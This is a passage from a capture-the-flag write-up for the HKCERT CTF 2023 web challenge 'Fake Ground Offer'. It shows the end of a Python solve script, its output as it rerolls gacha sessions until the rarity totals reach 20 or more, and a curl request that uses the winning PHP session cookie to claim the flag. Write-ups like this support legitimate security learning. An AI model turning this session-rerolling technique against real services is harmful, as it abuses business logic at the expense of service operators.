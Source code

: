 ```python
    URL_GACHA1 = 'http://chal-a.hkcert23.pwnable.hk:28137/?gacha1=blah'

    asyncio.run(main())
```

**After running it for sometimes, you might get lucky to get UR + SSR >= 20:**
```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/web/Fake-Ground-Offer)-[2023.11.13|20:18:31(HKT)]
└> python3 solve.py
[*] Trying... Session ID: 5117fa47d437f27d8ff9094d5ebde132, UR + SSR value: 29
[+] We got UR + SSR >= 20!!
[+] Session ID: 5117fa47d437f27d8ff9094d5ebde132
[+] UR value: 15
[+] SSR value: 14
```

**Finally, we can send a GET request to `/` with GET parameter `sellacc` and the PHP session ID to get the flag!**
```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/web/Fake-Ground-Offer)-[2023.11.13|20:23:39(HKT)]
└> curl http://chal-a.hkcert23.pwnable.hk:28137/?sellacc= --cookie "PHPSESSID=5117fa47d437f27d8ff9094d5ebde132" 
hkcert23{USSR_stands_for_Union_of_Sov...oh_no_we_cannot_talk_about_that_in_here}
```

- **Flag: `hkcert23{USSR_stands_for_Union_of_Sov...oh_no_we_cannot_talk_about_that_in_here}`**

## Conclusion

What we've learned:

1. Exploiting flawed gacha system